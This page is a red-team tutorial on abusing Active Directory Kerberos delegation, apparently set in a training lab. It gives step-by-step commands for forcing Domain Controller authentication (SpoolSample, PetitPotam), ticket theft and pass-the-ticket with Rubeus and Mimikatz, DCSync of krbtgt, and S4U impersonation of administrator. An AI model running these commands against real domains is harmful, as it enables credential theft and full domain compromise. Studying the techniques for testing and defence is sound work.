

<Callout type="info" title="Concept Overview">
**Delegation** in Active Directory grants a service or user the permission to act on behalf of another entity to access resources. Attackers abuse misconfigured delegation settings (Unconstrained, Constrained) to escalate privileges and impersonate Domain Admins.

**MITRE ATT&CK Mapping:**
* [T1558.001 - Steal or Forge Kerberos Tickets: Golden Ticket](https://attack.mitre.org/techniques/T1558/001/)
* [T1558.003 - Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
</Callout>


---

## Unconstrained Delegation

<Callout type="info" title="Concept & Risks">
In **Unconstrained Delegation**, a service is allowed to act on behalf of a user to access **any** service or resource in the network. When a user authenticates to a service with unconstrained delegation, the KDC attaches a copy of the user's TGT (Ticket Granting Ticket) to the service ticket. The service caches this TGT and can use it to impersonate the user anywhere.

* **Risk:** If the service is compromised, the attacker can extract the cached TGTs of all users who authenticated to it (including Domain Admins).
</Callout>


<Callout type="danger" title="The MS-RPRN (Print Spooler) Attack">
If a server with unconstrained delegation is compromised, you can extract credentials of all users who authenticate to it. But how do you force a Domain Admin to authenticate to your compromised server?

The **MS-RPRN** (Microsoft Print System Remote Protocol) bug in the Windows Print Spooler service allows an attacker to force any machine (like a Domain Controller) to authenticate to a target of their choosing.
</Callout>


*Figure 1: MS-RPRN Authentication Forcing*

### Enumeration (Unconstrained)

Find computers and users configured with Unconstrained Delegation.

<Tabs>
  <Tab title="PowerView">
    ```powershell
    Get-DomainComputer -Unconstrained
    Get-DomainComputer -Unconstrained | select cn
    Get-DomainUser -Unconstrained
    ```
  </Tab>
  <Tab title="AD Module">
    ```powershell
    Install-WindowsFeature RSAT-AD-PowerShell
    ipmo ActiveDirectory
    Get-ADComputer -Filter {TrustedForDelegation -eq $TRUE}
    Get-ADUser -Filter {TrustedForDelegation -eq $TRUE}
    ```
  </Tab>
</Tabs>

### Exploitation: Forcing Auth & Pass-the-Ticket

<Steps>
  <Step title="Step 1: Run Listener on the compromised Unconstrained machine (as Admin)">
    ```powershell
    # Rubeus will monitor for new TGTs every 5 seconds
    Rubeus monitor /interval:5 /targetuser:DCmachine$ /nowrap
    ```
  </Step>
  <Step title="Step 2: Force the Domain Controller to connect to your machine">
    <AccordionGroup>
      <Accordion title="MS-RPRN / PetitPotam Commands">
        ```powershell
        # Using SpoolSample (MS-RPRN)
        MS-RPRN.exe \\DCmachine.adolf.local \\unconstrainedmachine.adolf.local

        # Or using PetitPotam (another variant)
        PetitPotam.exe unconstrainedmachine DCmachine
        ```
      </Accordion>
    </AccordionGroup>
    *Resources:* [topotam/PetitPotam](https://github.com/topotam/PetitPotam) | [leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
  </Step>
  <Step title="Step 3: Pass the Ticket (PTT)">
    *Rubeus monitor will output a Base64 TGT. Use it to inject into your session.*
    <AccordionGroup>
      <Accordion title="Method A: Rubeus">
        ```powershell
        Rubeus.exe ptt /ticket:base64_ticket_here
        ```
      </Accordion>
      <Accordion title="Method B: Mimikatz">
        ```powershell
        [IO.File]::WriteALLBytes("C:\file.kirbi",[convert]::FromBase64String("Ticket-from-Rubeus_monitor"))
        Invoke-Mimikatz -command '"kerberos::ptt C:\file.kirbi"'
        Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
        Invoke-Mimikatz -Command '"kerberos::ptt .\TGT_ticket.kirbi"'
        ```
      </Accordion>
    </AccordionGroup>
  </Step>
  <Step title="Step 4: Execute DCSync Attack">
    *Now that you have impersonated a Domain Admin via the TGT, you can DCSync.*
    ```powershell
    Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
    ```
  </Step>
</Steps>

### Modifying Objects for Unconstrained Delegation

If you have sufficient privileges (e.g., Domain Admin), you can enable unconstrained delegation on a machine to capture TGTs.

<Tabs>
  <Tab title="AD Module">
    ```powershell
    Get-ADUser -Identity user -Properties userAccountControl
    Set-ADComputer -Identity computer$ -TrustedForDelegation $true
    ```
  </Tab>
  <Tab title="PowerView">
    ```powershell
    Set-DomainObject -Identity "ComputerName" -Xor @{"userAccountControl"=524288}
    ```
  </Tab>
</Tabs>

---

## Constrained Delegation

<Callout type="info" title="Concept & S4U Extensions">
**Constrained Delegation** restricts a service to impersonate a user **only** for specific, explicitly defined services (e.g., only CIFS on a specific file server).

This relies on two Kerberos extensions:
1. **S4U2Self (Service for User to Self):** Allows a service to request a Kerberos ticket for a user without their password (used when user authenticates via non-Kerberos methods like forms).
2. **S4U2Proxy (Service for User to Proxy):** Allows the service to use that ticket to request a Service Ticket (TGS) for the allowed target service.

**Key Attributes:**
* `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`: Flag in `userAccountControl`.
* `msDS-AllowedToDelegateTo`: List of SPNs the service can delegate to.
</Callout>

### S4U2Self & S4U2Proxy Flow Diagram



### Enumeration (Constrained)

Find objects configured with Constrained Delegation.

<Tabs>
  <Tab title="PowerView">
    ```powershell
    Get-DomainComputer -TrustedToAuth
    Get-DomainUser -TrustedToAuth
    ```
  </Tab>
  <Tab title="AD Module">
    ```powershell
    ipmo ActiveDirectory
    Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
    Get-ADObject | ? {$_.'msDS-AllowedToDelegateTo' -ne $null}
    ```
  </Tab>
</Tabs>


### Exploitation: Requesting TGT & TGS (S4U)

*Scenario: Machine `us-mssql` account is permitted to delegate. We compromised `appsvc` and will impersonate `administrator`.*

<Tabs>
  <Tab title="Method 1: Using Rubeus (All-in-one)">
    ```powershell
    Rubeus s4u /user:appsvc /rc4:ntlmhash /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt

    # Access the target
    winrs -r:us-mssql.us.techcorp.local powershell
    ```
  </Tab>
  <Tab title="Method 2: Using Kekeo & Mimikatz">
    *1. Request TGT using Kekeo:*
    ```text
    kekeo> tgt::ask /user:appsvc /domain:us.techcorp.local /rc4:ntlmhash
    ```
    *2. Request TGS using S4U (via Kekeo):*
    ```text
    kekeo> tgs::s4u /tgt:TGT.kirbi /user:administrator /service:CIFS/us-mssql.us.techcorp.local
    ```
    *3. Inject the ticket via Mimikatz:*
    ```powershell
    Invoke-Mimikatz -command '"kerberos::ptt TGS.kirbi"'

    # Verify and access
    icm -scriptblock {whoami} -computername us-mssql.us.techcorp.local
    winrs -r:us-mssql.us.techcorp.local powershell
    ```
  </Tab>
</Tabs>

### Modifying Objects for Constrained Delegation

If you have privileges, you can configure constrained delegation.

<Tabs>
  <Tab title="AD Module">
    ```powershell
    Set-ADUser -identity user -serviceprincipalname @{Add='chert/pert'}
    Set-ADUser -identity user -Add @{'msDS-AllowedToDelegateTo'=@('ldap/hostname','ldap/hostname.domain.local')}
    Set-ADAccountControl -identity user -TrustedToAuthForDelegation $True
    ```
  </Tab>
  <Tab title="PowerView">
    ```powershell
    Set-DomainObject -Identity user -set @{serviceprincipalname='chert/pert'}
    Set-DomainObject -Identity user -set @{"msds-allowedtodelegateto"='ldap/hostname.domain.local'}
    Set-DomainObject -samaccountname user -Xor @{"useraccountcontrol"="16777216"}
    ```
  </Tab>
</Tabs>

*Resource:* [techjutsu.ca/uac-decoder](https://techjutsu.ca/uac-decoder)

---

## Summary Comparison

| Feature | **Unconstrained Delegation** | **Constrained Delegation** |
| :--- | :--- | :--- |
| **Access Scope** | Can impersonate the user for **any** service. | Can impersonate the user for **specific** services only. |
| **Security** | More prone to attacks if compromised. | More secure due to limited access. |
| **Control** | Less granular control over accessed resources. | Granular control via `msDS-AllowedToDelegateTo`. |
| **Risk** | High risk of full domain compromise (DCSync). | Reduced risk, restricted to configured SPNs. |
